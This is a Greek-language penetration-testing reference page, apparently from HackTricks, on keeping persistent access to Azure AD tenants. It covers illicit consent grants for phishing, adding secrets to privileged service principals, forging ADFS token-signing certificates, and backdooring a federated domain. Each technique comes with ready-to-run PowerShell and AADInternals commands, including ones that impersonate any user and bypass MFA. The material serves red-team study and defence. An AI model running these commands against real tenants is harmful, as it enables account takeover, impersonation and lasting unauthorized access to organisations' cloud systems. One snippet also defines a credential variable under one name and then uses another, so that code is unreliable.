 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### Illicit Consent Grant

Από προεπιλογή, οποιοσδήποτε χρήστης μπορεί να καταχωρήσει μια εφαρμογή στο Azure AD. Έτσι, μπορείτε να καταχωρήσετε μια εφαρμογή (μόνο για τον στοχοθετημένο ενοικιαστή) που χρειάζεται δικαιώματα υψηλής επιρροής με τη συγκατάθεση του διαχειριστή (και να την εγκρίνετε αν είστε ο διαχειριστής) - όπως η αποστολή email εκ μέρους ενός χρήστη, η διαχείριση ρόλων κ.λπ. Αυτό θα μας επιτρέψει να **εκτελέσουμε επιθέσεις phishing** που θα ήταν πολύ **κερδοφόρες** σε περίπτωση επιτυχίας.

Επιπλέον, θα μπορούσατε επίσης να αποδεχθείτε αυτή την εφαρμογή με τον χρήστη σας ως έναν τρόπο διατήρησης πρόσβασης σε αυτήν.

### Applications and Service Principals

Με προνόμια Διαχειριστή Εφαρμογών, GA ή έναν προσαρμοσμένο ρόλο με δικαιώματα microsoft.directory/applications/credentials/update, μπορούμε να προσθέσουμε διαπιστευτήρια (μυστικό ή πιστοποιητικό) σε μια υπάρχουσα εφαρμογή.

Είναι δυνατόν να **στοχεύσουμε μια εφαρμογή με υψηλά δικαιώματα** ή **να προσθέσουμε μια νέα εφαρμογή** με υψηλά δικαιώματα.

Ένας ενδιαφέρον ρόλος για να προστεθεί στην εφαρμογή θα ήταν ο **ρόλος διαχειριστή προνομιακής πιστοποίησης** καθώς επιτρέπει να **επαναφέρετε τον κωδικό πρόσβασης** των Παγκόσμιων Διαχειριστών.

Αυτή η τεχνική επιτρέπει επίσης να **παρακαμφθεί το MFA**.
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Για την αυθεντικοποίηση με βάση το πιστοποιητικό
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

Με **δικαιώματα DA** στο on-prem AD, είναι δυνατόν να δημιουργήσουμε και να εισάγουμε **νέα πιστοποιητικά υπογραφής Token** και **πιστοποιητικά αποκρυπτογράφησης Token** που έχουν πολύ μεγάλη διάρκεια ισχύος. Αυτό θα μας επιτρέψει να **συνδεθούμε ως οποιοσδήποτε χρήστης** του οποίου το ImuutableID γνωρίζουμε.

**Εκτελέστε** την παρακάτω εντολή ως **DA στους ADFS server(s)** για να δημιουργήσετε νέα πιστοποιητικά (προεπιλεγμένος κωδικός πρόσβασης 'AADInternals'), να τα προσθέσετε στο ADFS, να απενεργοποιήσετε την αυτόματη ανανέωση και να επανεκκινήσετε την υπηρεσία:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Τότε, ενημερώστε τις πληροφορίες πιστοποίησης με το Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Με δικαιώματα GA σε έναν ενοικιαστή, είναι δυνατόν να **προσθέσετε ένα νέο τομέα** (πρέπει να επαληθευτεί), να ρυθμίσετε τον τύπο αυθεντικοποίησής του σε Ομοσπονδία και να ρυθμίσετε τον τομέα να **εμπιστεύεται ένα συγκεκριμένο πιστοποιητικό** (any.sts στην παρακάτω εντολή) και εκδότη:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Αναφορές

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
